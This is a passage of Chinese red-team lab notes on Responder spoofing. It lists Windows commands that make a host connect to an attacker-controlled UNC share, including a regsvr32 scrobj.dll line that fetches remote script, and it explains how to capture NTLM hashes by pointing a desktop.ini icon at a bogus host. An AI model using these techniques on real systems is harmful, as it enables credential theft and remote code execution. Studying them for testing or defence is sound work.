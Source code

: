 ```bash
mstsc.exe \hostshare #(noisy, error)
netcfg.exe -l \hostshare -c p -i foo
regsvr32 /s /u /i://x.x.x.x/@xxx scrobj.dll
echo 1 > //192.168.0.1/abc
pushd \\192.168.0.1\abc
cmd /k \\192.168.0.1\abc
cmd /c \\192.168.0.1\abc
start \\192.168.0.1\abc
mkdir \\192.168.0.1\abc
type\\192.168.0.1\abc
dir\\192.168.0.1\abc
```

## 通过文件获取hash

**图标**

可以通过图标资源来代替代 net use 这条命令，比如我们可以创建一个文件夹 test，并在 test 下再创建一个文件夹如 test2，通过给 test2 设置其他图标，能在 test2 文件夹下生成一个隐藏的系统文件 desktop.ini，而通过修改设置可以使 desktop.ini 可见，最后编辑这个文件，将图标资源指向一个不存在的主机，打开 test 文件夹之后即可获取 hash 值。

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/Responder欺骗/5.png)

此时 desktop.ini 文件已生成，需要修改配置使 desktop.ini 文件, 将原本的 IconResource 路径修改，改为如下格式后保存即可
```
IconResource=\\hello-world\test\SHELL32.dll,2
```

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/Responder欺骗/6.png)
